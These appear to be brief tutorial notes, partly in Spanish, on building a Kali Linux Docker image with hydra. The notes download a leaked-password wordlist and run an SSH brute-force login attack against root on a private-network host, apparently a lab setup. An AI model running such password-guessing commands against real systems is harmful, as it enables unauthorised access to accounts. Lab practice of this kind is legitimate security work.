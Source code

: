 kalilinux/kali-rolling

Is the main image that you should likely use, tracking the continuously-updated kali-rolling package repository, just like the default images.
https://hub.docker.com/r/kalilinux/kali-rolling
https://www.kali.org/docs/containers/official-kalilinux-docker-images/

Descargamos el archivo Dockerfile, luego

docker build -t kali-hydra .

docker run -it kali-hydra /bin/bash 

curl https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt > passlist.txt

hydra -s 2222 -l root -P passlist.txt 192.168.0.6 -t 4 -V ssh 
